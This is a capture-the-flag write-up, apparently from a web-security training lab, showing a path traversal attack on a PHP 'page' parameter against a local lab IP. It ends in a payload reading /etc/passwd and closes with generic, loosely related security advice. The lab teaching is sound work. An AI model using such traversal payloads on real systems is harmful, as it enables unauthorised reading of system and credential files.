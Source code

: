 # Looking for a password

__http://192.168.56.101/index.php?page__

## Description and Outputs
I decided to go to the end.
```http://192.168.56.101/index.php?page=../``` = Wtf ?
```http://192.168.56.101/index.php?page=../../``` = Wrong..
```http://192.168.56.101/index.php?page=../../../``` = Nope..
```http://192.168.56.101/index.php?page=../../../../``` = Almost.
```http://192.168.56.101/index.php?page=../../../../../``` = Still nope..
```http://192.168.56.101/index.php?page=../../../../../../``` = Nope..
```http://192.168.56.101/index.php?page=../../../../../../../``` = You can DO it !!!  :]

## Flag
The flag is hidden there
```http://192.168.56.101/index.php?page=../../../../../../../etc/passwd```

## Safety
Over the exercise we need to follow the rules
Implement role-based access control (RBAC): Use RBAC to assign specific permissions and access rights to different user roles. This ensures that only authorized users can access and modify certain areas of the application.
Implement secure coding practices: Follow secure coding practices, such as using secure programming techniques, avoiding hardcoded passwords or sensitive information in the code, and properly handling error messages to avoid exposing system details.

